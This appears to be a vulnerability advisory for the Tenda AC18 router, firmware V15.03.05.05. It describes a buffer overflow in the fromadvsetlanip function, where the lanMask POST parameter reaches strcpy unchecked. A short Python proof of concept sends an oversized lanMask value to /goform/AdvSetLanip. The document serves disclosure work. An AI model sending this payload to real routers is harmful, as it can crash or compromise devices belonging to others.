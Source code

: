 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a buffer overflow vulnerability in the `fromadvsetlanip ` function. The `Var` variable receives the `lanMask` parameter from a POST request and is later passed to the `strcpy` function. However, since the Since user can control the input of  `lanMask`, the statemeant `strcpy((char *)&a4[38 * a3 + 2] + 2, a1);` can cause a buffer overflow.

![image-20250603000520280](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250603000520280.png)

![image-20250603000617375](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250603000617375.png)

![image-20250603000627892](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250603000627892.png)

## POC

```python
import requests

ip = "192.168.1.1"

url = f'http://{ip}/goform/AdvSetLanip'
payload = b'a' * 1000
data = {
    'lanMask':payload
}

requests.post(url, data=data)
```

![image-20250603000202009](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250603000202009.png)
